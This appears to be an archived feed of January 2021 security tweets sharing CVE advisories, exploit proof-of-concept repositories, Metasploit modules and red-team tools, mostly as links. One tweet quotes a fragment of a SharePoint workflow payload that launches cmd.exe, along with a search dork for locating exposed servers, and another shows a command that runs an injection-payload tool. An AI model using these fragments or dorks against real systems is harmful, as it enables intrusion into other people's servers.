<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>56</code></td>
<td>Favorites: <code>114</code></td>
</table></tr>

---

# jsherma100
**https://twitter.com/jsherma100/status/1349778708106772482 _at 2021-01-14 18:01:36_**
<blockquote>
xnuspy: hook iOS kernel functions from userspace 🤩 https://t.co/eCN9SMP4c4 definitely the coolest thing I've worked on in my entire life, supports 16k devices from iOS 13.x to iOS 14.x https://t.co/Bl02q1XlJv
</blockquote>

* https://github.com/jsherman212/xnuspy

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>16</code></td>
<td>Retweets: <code>177</code></td>
<td>Favorites: <code>749</code></td>
</table></tr>

---

# thezdi
**https://twitter.com/thezdi/status/1349767878720028679 _at 2021-01-14 17:18:34_**
<blockquote>
Just published: 5 advisories in #SolarWinds, including 2 RCE bugs fixed in CVE-2020-14005, which has been publicly linked with #SunBurst. Other bugs are privilege escalation, info disclosure, and arbitrary file creation. https://t.co/LnQUrpwkLS
</blockquote>

* https://www.zerodayinitiative.com/advisories/published/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>37</code></td>
<td>Favorites: <code>101</code></td>
</table></tr>

---

# _chipik
**https://twitter.com/_chipik/status/1349713193443209216 _at 2021-01-14 13:41:16_**
<blockquote>
RCE PoC for CVE-2020-6207 (Missing Authentication Check in SAP Solution Manager)

https://t.co/PVg72190wM https://t.co/enoqzKEVTv
</blockquote>

* https://github.com/chipik/SAP_EEM_CVE-2020-6207

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>86</code></td>
<td>Favorites: <code>189</code></td>
</table></tr>

---

# netbiosX
**https://twitter.com/netbiosX/status/1349615898638897158 _at 2021-01-14 07:14:39_**
<blockquote>
Red Terroir - Terraform resources for building HTTP, DNS, phishing, and mail server red team infrastructure https://t.co/ThSEfgcgmJ
</blockquote>

* https://github.com/b3n-j4m1n/Red-Terroir

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>54</code></td>
<td>Favorites: <code>180</code></td>
</table></tr>

---

# vysecurity
**https://twitter.com/vysecurity/status/1349277202731261953 _at 2021-01-13 08:48:48_**
<blockquote>
Metasploit Module for the Exchange DLP RCE https://t.co/2gk1kx0H3m
</blockquote>

* https://github.com/rapid7/metasploit-framework/pull/14607

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>32</code></td>
</table></tr>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1349222849362317313 _at 2021-01-13 05:12:49_**
<blockquote>
~~ Patch Tuesday, Jan 2021 ~~

#Microsoft releases Windows updates to patch a total of 83 newly discovered security flaws, including an actively exploited zero-day RCE #vulnerability affecting Defender (CVE-2021-1647) application.

https://t.co/IuW3s7ubiF

#infosec #cybersecurity
</blockquote>

* https://thehackernews.com/2021/01/microsoft-issues-patches-for-defender.html

<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>158</code></td>
<td>Favorites: <code>213</code></td>
</table></tr>

---

# jfslowik
**https://twitter.com/jfslowik/status/1349120985195106304 _at 2021-01-12 22:28:02_**
<blockquote>
Hey, for CVE-2021-1647 - I thought if a product auto-updates Microsoft doesn't deem that worth a CVE???

https://t.co/qPoH8QI2zn
</blockquote>

* https://thehackernews.com/2020/12/zero-click-wormable-rce-vulnerability.html#:~:text=Zero%2DClick%20Wormable%20RCE%20Vulnerability%20Reported%20in%20Microsoft%20Teams,-%EE%A0%82December%2007&text=Microsoft%20did%20not%20assign%20a,automatically%20updates%20without%20user's%20interaction.%22

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>9</code></td>
<td>Favorites: <code>40</code></td>
</table></tr>

---

# maddiestone
**https://twitter.com/maddiestone/status/1349085464754409472 _at 2021-01-12 20:06:54_**
<blockquote>
One 0-day from today's Microsoft Patch Tuesday is marked as exploited in the wild: CVE-2021-1647, a RCE in Microsoft Defender. https://t.co/Nnz5z0kCun
</blockquote>

* https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1647

<table><tr>
<td>Quotes: <code>14</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>167</code></td>
<td>Favorites: <code>329</code></td>
</table></tr>

---

# buherator
**https://twitter.com/buherator/status/1349064159464448000 _at 2021-01-12 18:42:14_**
<blockquote>
CVE-2021-1647 - Windows Defender RCE

Vector: Local
Exploitation Assessment: Exploitation detected

https://t.co/LHw2SdR2Lt
</blockquote>

* https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-1647

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>71</code></td>
<td>Favorites: <code>185</code></td>
</table></tr>

---

# steventseeley
**https://twitter.com/steventseeley/status/1349058761370071041 _at 2021-01-12 18:20:47_**
<blockquote>
A story on how I gained RCE against Microsoft Exchange Online using CVE-2020-16875 and bypassed their patches twice over. Latest patch bypass is unpatched against on-premise deployments!

Making Clouds Rain - Remote Code Execution in Microsoft Office 365: https://t.co/HqVQTRCYF6
</blockquote>

* https://srcincite.io/blog/2021/01/12/making-clouds-rain-rce-in-office-365.html

<table><tr>
<td>Quotes: <code>17</code></td>
<td>Replies: <code>12</code></td>
<td>Retweets: <code>372</code></td>
<td>Favorites: <code>778</code></td>
</table></tr>

---

# campuscodi
**https://twitter.com/campuscodi/status/1349058436907073536 _at 2021-01-12 18:19:30_**
<blockquote>
Microsoft fixes Windows Defender zero-day in January 2021 Patch Tuesday (CVE-2021-1647)

-82 other bugs also fixed this month
-this includes a patch for CVE-2021-1648, a Windows EoP bug disclosed by ZDI last month

https://t.co/wnP0fML0zO https://t.co/Q13Q9OLWBG
</blockquote>

* https://www.zdnet.com/article/microsoft-fixes-defender-zero-day-in-january-2021-patch-tuesday/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>58</code></td>
</table></tr>

---

# tekwizz123
**https://twitter.com/tekwizz123/status/1348857992695963649 _at 2021-01-12 05:03:00_**
<blockquote>
Metasploit module for CVE-2020-17136 has now been landed. Allows for LPE on Windows 10 1803 and later. Features a (as far as I am aware) new DLL hijack that I found using the healthapi.dll DLL and the Microsoft Storage Spaces SMP service https://t.co/AGCKoxNKB7
</blockquote>

* https://github.com/rapid7/metasploit-framework/pull/14585

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>56</code></td>
<td>Favorites: <code>127</code></td>
</table></tr>

---

# qntm
**https://twitter.com/qntm/status/1348743734448558084 _at 2021-01-11 21:28:59_**
<blockquote>
`fastjson` is my JSON library which

* returns `null` on parse and the string "null" on stringification
* every time, regardless of input
* in full compliance with RFC 7159

https://t.co/QHsGgMZP6Y
</blockquote>

* https://github.com/qntm/fastjson

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>123</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1348672721790541824 _at 2021-01-11 16:46:48_**
<blockquote>
Zerologon : Instantly Become Domain Admin by Subverting Netlogon Cryptography (CVE-2020-1472) : https://t.co/BgyDYgJgda 

More --&gt; Understanding &amp; Exploiting Zerologon : https://t.co/p28eWUjlzu
</blockquote>

* https://www.secura.com/uploads/whitepapers/Zerologon.pdf
* https://www.exploit-db.com/docs/49368

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>24</code></td>
<td>Favorites: <code>60</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1348668987404505089 _at 2021-01-11 16:31:58_**
<blockquote>
s3viewer : new tool to list contents of a publicly open s3 buckets in order to identify information leaks : https://t.co/gutH3PaCuj
</blockquote>

* https://github.com/SharonBrizinov/s3viewer

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>42</code></td>
<td>Favorites: <code>136</code></td>
</table></tr>

---

# harshtya9i
**https://twitter.com/harshtya9i/status/1348668208979398657 _at 2021-01-11 16:28:52_**
<blockquote>
for blind injection vulnerabilities, SQLi time based, Command injection, code injection, SSTI

https://t.co/709EsC7TNJ

python3 -u https://t.co/AVaz2StTCZ[*] -p payload list

@ofjaaah 

#bugbounty #bugbountytip
</blockquote>

* https://github.com/zeronine9/Blind_SPOT
* http://target.com/?=1

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>63</code></td>
<td>Favorites: <code>115</code></td>
</table></tr>

---

# MaKyOtOx
**https://twitter.com/MaKyOtOx/status/1348557407241330691 _at 2021-01-11 09:08:35_**
<blockquote>
FasterXML jackson-databind RCE #exploit #PoC https://t.co/GcD8ZxtXru #CVE-2020-36179 #CVE-2020-36180 #CVE-2020-36181 #CVE-2020-36182
</blockquote>

* https://github.com/Al1ex/CVE-2020-36179

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>2</code></td>
</table></tr>

---

# CodeColorist
**https://twitter.com/CodeColorist/status/1348174280836583434 _at 2021-01-10 07:46:11_**
<blockquote>
In case you are looking for it, here's the sandbox escape PoC for CVE-2020-9979 (patched before macOS 10.15 dev)
https://t.co/ca0YJFtPi6 It won't compile because the WebKit exploit and shellcode MachO loader are not included
</blockquote>

* https://github.com/ChiChou/sploits/tree/master/CVE-2020-9979

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>7</code></td>
<td>Favorites: <code>43</code></td>
</table></tr>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1347929059322441729 _at 2021-01-09 15:31:45_**
<blockquote>
CVE-2020-11851 Remote Code Execution vulnerability on ArcSight Logger  https://t.co/TaASz7HhXO #Pentesting #RCE #Vulnerability #CyberSecurity #Infosec https://t.co/HQjZwFRIcS
</blockquote>

* https://github.com/ch1nghz/CVE-2020-11851

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>40</code></td>
</table></tr>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1347878066488569857 _at 2021-01-09 12:09:08_**
<blockquote>
CVE-2020-11851: Remote Code Execution vulnerability on ArcSight Logger (via ArcSight Management Center)

PoC
https://t.co/6Zfole0Nor https://t.co/d88RFGsoFM
</blockquote>

* https://github.com/ch1nghz/CVE-2020-11851

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>9</code></td>
<td>Favorites: <code>29</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1347867980017717251 _at 2021-01-09 11:29:03_**
<blockquote>
Intel Owl: analyze files, domains, IPs in multiple ways from a single API at scale : https://t.co/baMVV4iB7K credits @matte_lodi
</blockquote>

* https://github.com/intelowlproject/IntelOwl

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>148</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1347867350859583491 _at 2021-01-09 11:26:33_**
<blockquote>
CrackQ : Python based Password cracking GUI for Hashcat : https://t.co/KjVwhUa7kP
</blockquote>

* https://github.com/f0cker/crackq

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>126</code></td>
<td>Favorites: <code>392</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1347861047634403329 _at 2021-01-09 11:01:30_**
<blockquote>
atom : Shell scripting that will knock your socks off : https://t.co/8AkOykXbCN credits @adamthekiwi99 https://t.co/kYK9VY0BQN
</blockquote>

* https://github.com/adam-mcdaniel/atom

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>151</code></td>
</table></tr>

---

# binitamshah
**https://twitter.com/binitamshah/status/1347204278050463746 _at 2021-01-07 15:31:44_**
<blockquote>
PyBeacon : a collection of scripts for dealing with Cobalt Strike's encrypted traffic. 

It can encrypt / decrypt beacon metadata, as well as parse symmetric encrypted taskings : https://t.co/tjzMDHq6jV credits @buffaloverflow
</blockquote>

* https://github.com/nccgroup/pybeacon

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>14</code></td>
<td>Favorites: <code>51</code></td>
</table></tr>

---

# yeswehack
**https://twitter.com/yeswehack/status/1347124757452513282 _at 2021-01-07 10:15:45_**
<blockquote>
SSTI, LFI, SQL injections or XSS cheatsheets right inside your browser? 
Yes ! and many more.
Hack-Tools browser extension by Ludovic COULON &amp; Riadh BOUCHAHOUA is nice, give it a try.

https://t.co/hqXSucDc40
</blockquote>

* https://github.com/LasCC/Hack-Tools

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>61</code></td>
<td>Favorites: <code>173</code></td>
</table></tr>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1347042122554339328 _at 2021-01-07 04:47:23_**
<blockquote>
NTFS Remote Code Execution (CVE-2020-17096) Analysis  https://t.co/0tyZqwYp8g  #Pentesting #RCE #Vulnerability #Exploit #CyberSecurity #Infosec https://t.co/WAIoPMYrVp
</blockquote>

* https://blog.zecops.com/vulnerabilities/ntfs-remote-code-execution-cve-2020-17096-analysis/

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>34</code></td>
</table></tr>

---

# ale_sp_brazil
**https://twitter.com/ale_sp_brazil/status/1346703252507787264 _at 2021-01-06 06:20:50_**
<blockquote>
NTFS Remote Code Execution (CVE-2020-17096) Analysis:

https://t.co/QeH0EuzRQu

#exploitation #windows #ntfs #cybersecurity https://t.co/7cTlb5RvpI
</blockquote>

* https://blog.zecops.com/vulnerabilities/ntfs-remote-code-execution-cve-2020-17096-analysis/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>67</code></td>
</table></tr>

---

# ZecOps
**https://twitter.com/ZecOps/status/1346559882825064450 _at 2021-01-05 20:51:08_**
<blockquote>
NTFS Remote Code Execution (CVE-2020-17096) Analysis - ZecOps Blog https://t.co/RvjL9lEEtZ
</blockquote>

* https://blog.zecops.com/vulnerabilities/ntfs-remote-code-execution-cve-2020-17096-analysis/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>102</code></td>
<td>Favorites: <code>235</code></td>
</table></tr>

---

# yamanoku
**https://twitter.com/yamanoku/status/1346441121224744961 _at 2021-01-05 12:59:13_**
<blockquote>
Reading… Server-Side Request Forgery in Axios · CVE-2020-28168 · GitHub Advisory Database https://t.co/RoOiZFFZGa
</blockquote>

* https://github.com/advisories/GHSA-4w2v-q235-vp99

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</table></tr>

---

# wugeej
**https://twitter.com/wugeej/status/1346348017389998081 _at 2021-01-05 06:49:15_**
<blockquote>
CVE-2020-0646 SharePoint RCE

PoC
CallExternalMethodActivity x:Name="foo" 
....System.Diagnostics.Process.Start("cmd.exe",

Google Dork
.sharepoint.com/_vti_bin/webpartpages/asmx -docs -msdn -mdsec

https://t.co/DRGcSRZ6Co https://t.co/w1OI4ADbbJ
</blockquote>

* https://www.mdsec.co.uk/2020/01/code-injection-in-workflows-leading-to-sharepoint-rce-cve-2020-0646/?fbclid=IwAR0b4QZxdQKVYN-ES62rdt9yN5MMzfgpK7DkdkbIq44Flm-ODiuqzeIglUQ

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>179</code></td>
<td>Favorites: <code>418</code></td>
</table></tr>

---

# Shadow0pz
**https://twitter.com/Shadow0pz/status/1346156099750268931 _at 2021-01-04 18:06:39_**
<blockquote>
@IanColdwater Drops CVE-2021-0231 A Twitter RCE via timing attack thus extending February to 31 days.

So far it appears this exploit POC has been very successful.

😂😂

❤️ Ian you deserve to be verified. Here's hoping it happens this year.
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>4</code></td>
<td>Favorites: <code>36</code></td>
</table></tr>

---

# G0ldenGunSec
**https://twitter.com/G0ldenGunSec/status/1345410255069581318 _at 2021-01-02 16:42:55_**
<blockquote>
Cobalt Strike BOF to enum processes with the CLR loaded, allows you to identify a spawnTo target for execute-assembly without having to start any additional processes: https://t.co/BPmk2U0wTT 

Due to BOF memory limitations, will only currently enum up to 325 processes at a time https://t.co/UtEEP8cqdy
</blockquote>

* https://gist.github.com/G0ldenGunSec/8ca0e853dd5637af2881697f8de6aecc

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>102</code></td>
<td>Favorites: <code>214</code></td>
</table></tr>

---

# KLINIX5
**https://twitter.com/KLINIX5/status/1345063704035995649 _at 2021-01-01 17:45:51_**
<blockquote>
I just created a GUI tool which exploit another 0day arbitrary file overwrite tool when plugging USB sticks it can be used to break windows installation with just a simple USB stick
The tool is open source so enjoy :) 
https://t.co/HmvaVD76W8
</blockquote>

* https://github.com/klinix5/WinUSBKiller

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>52</code></td>
</table></tr>

---

